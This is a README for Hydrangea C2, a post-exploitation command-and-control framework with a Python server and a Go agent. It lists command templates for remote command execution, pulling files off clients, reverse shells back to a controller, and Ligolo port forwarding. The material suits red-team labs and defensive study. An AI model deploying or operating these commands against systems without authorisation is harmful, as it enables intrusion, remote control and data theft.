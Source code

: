 # Hydrangea C2

```
   ▄█    █▄    ▄██   ▄   ████████▄     ▄████████    ▄████████ ███▄▄▄▄      ▄██████▄     ▄████████    ▄████████ 
  ███    ███   ███   ██▄ ███   ▀███   ███    ███   ███    ███ ███▀▀▀██▄   ███    ███   ███    ███   ███    ███ 
  ███    ███   ███▄▄▄███ ███    ███   ███    ███   ███    ███ ███   ███   ███    █▀    ███    █▀    ███    ███ 
 ▄███▄▄▄▄███▄▄ ▀▀▀▀▀▀███ ███    ███  ▄███▄▄▄▄██▀   ███    ███ ███   ███  ▄███         ▄███▄▄▄       ███    ███ 
▀▀███▀▀▀▀███▀  ▄██   ███ ███    ███ ▀▀███▀▀▀▀▀   ▀███████████ ███   ███ ▀▀███ ████▄  ▀▀███▀▀▀     ▀███████████ 
  ███    ███   ███   ███ ███    ███ ▀███████████   ███    ███ ███   ███   ███    ███   ███    █▄    ███    ███ 
  ███    ███   ███   ███ ███   ▄███   ███    ███   ███    ███ ███   ███   ███    ███   ███    ███   ███    ███ 
  ███    █▀     ▀█████▀  ████████▀    ███    ███   ███    █▀   ▀█   █▀    ████████▀    ██████████   ███    █▀  
                                      ███    ███                                                               

              Hydrangea C2 •  V3.0
```

Hydrangea is a modular command-and-control (C2) framework designed for simple and reliable post exploitation fleet management. It features a Python-based server and controller, plus a Go client agent, enabling efficient management of multiple endpoints over TCP. Hydrangea supports **file transfers**, **remote command execution**, **reverse shell management**, **port forwarding**, and more, all with a focus on clarity, minimalism, and explicit control. Intended for trusted environments, it emphasizes ease of use, extensibility, and security best practices.

--- 

For a detailed documentation please consider reading the [Wiki](https://github.com/tristanqtn/Hydrangea-C2/wiki). 

---

## Table of Contents

* [Overview](#overview)
* [Disclaimer](#disclaimer)
* [Architecture](#architecture)
* [Install & Run](#install--run)
* [Orders & Methods](#orders--methods)
* [Storage & Paths](#storage--paths)
* [Roadmap](#roadmap)


---

## Overview

Hydrangea C2 has three parts:

* **Server** — listens on multiple ports, tracks connected clients, relays orders, stores incoming files.
* **Client (Go)** — registers to the server, executes orders (list, file xfer, exec, session info).
* **Controller (CLI)** — sends admin actions and renders results with a clean TUI / REPL.

> Tip: Use on **trusted networks/hosts** with explicit authorization.

---

## Disclaimer

> [!CAUTION]
> Hydrangea C2 is provided **solely for lawful, authorized use** — such as lab work, education, internal administration, and environments where you **own or have explicit permission** to manage the systems involved. Using this software to access, monitor, or modify computers **without consent** may violate laws and regulations. **You are responsible** for complying with all applicable laws, policies, and contractual obligations. The authors and distributors **do not accept liability** for misuse, damage, loss of data, or any consequences arising from the use of this software. Use responsibly.

---

## Architecture

```
[ Controller (serverctl) ]  <--ADMIN RPC-->  [ Server ]  ===orders==>   [ Client(s) ]
                                                         <==results==
```

* Transport is plain TCP using a compact **length-prefixed JSON header + binary payload** frame.
* The server accepts both admin (controller) connections and client connections on the same ports.
* Responses that should flow back to the controller (e.g., `list --wait`, `exec`, `session`) are correlated with a `req_id`.

---

## Install & Run

Requires Python **3.10+** (server + controller).
For building Go clients, requires Go **1.21+**.

```bash
# Server (single or multi-port)
python Hydrangea-server.py --ports 9000 9001 --storage ./server_storage --auth-token supersecret

# Build Go agents (see "Agent builder (Go)" below)
>> build-client --server-host 127.0.0.1 --server-port 9000 --build-auth-token supersecret

# Run a built Go client
hydrangea-client-linux-amd64 --server 127.0.0.1 --port 9000 --auth-token supersecret --client-id laptop1

# Start server from controller
python Hydrangea-ctl.py --port 9000 --auth-token supersecret --start-srv
```

> The **auth token** must match across server, clients, and controller.

## Orders & Methods

Hydrangea exposes a small, explicit surface. Anything not listed here isn’t implemented.

### Admin actions

Run from the controller (`Hydrangea-ctl.py`):

* `clients` — List connected client IDs.
* `ping --client <id>` — Send a ping to a client (server doesn’t wait for a reply).
* `list --client <id> [--path <p>] [--wait] [--timeout <sec>]` — Request a directory listing on the client.

#### File Operations:
* `list [--client <id>] [--path <p>] [--wait] [--timeout <sec>]` — Request a directory listing on the client.
  * With `--wait`, the controller blocks and renders the result.
  * Without `--wait`, the order is queued; result is logged server-side.
* `pull [--client <id>] --src <client_path> --dest <server_path>` — Ask the client to **send a file to the server**.
  * If `--dest` is **absolute**, the server writes exactly there.
  * If `--dest` is relative, it saves under `server_storage/<client_id>/`.
* `push [--client <id>] --src <local_path> --dest <client_path>` — Send a local file **from the controller machine** to the client.

#### Command Execution:
* `exec [--client <id>] --command "<str|json list>" [--shell] [--cwd <client_path>] [--timeout <sec>]` — Execute a system command on the client and return `rc/stdout/stderr`.
* `local --command "<command>"` — Execute a command locally on the controller machine.

#### Advanced Features:
* `reverse-shell [--client <id>] --controller-addr <host:port>` — Start a reverse shell from the client back to the controller.
* `port-forward [--client <id>] --proxy-ip <ip> --proxy-port <port> --ligolo-path <path>` — Set up port forwarding using Ligolo agent.

#### System:
* `build-client [options]` — **Compile Go clients** from `./client/go` and embed server details (see [Agent builder (Go)](#agent-builder-go)).
* `server-status` — Check the health status of the server.

> **Note:** When using the REPL interface with an active client context (set via `use <id>`), the `--client` parameter becomes **optional** for all commands.

## Storage & Paths

* **Server side**

  * Default save location for pulled files: `server_storage/<client_id>/`.
  * If a **destination is absolute** (e.g., `/tmp/out.bin`), the file is written **exactly there** on the server host.

* **Client side (Go)**

  * The client allows absolute paths (e.g., `/etc/hosts`) and can also resolve **relative** paths against its configured root base (see your client’s flags/implementation).
  * When pushing, the client creates parent directories for the destination file if needed.

> Use absolute paths sparingly and only where appropriate.

---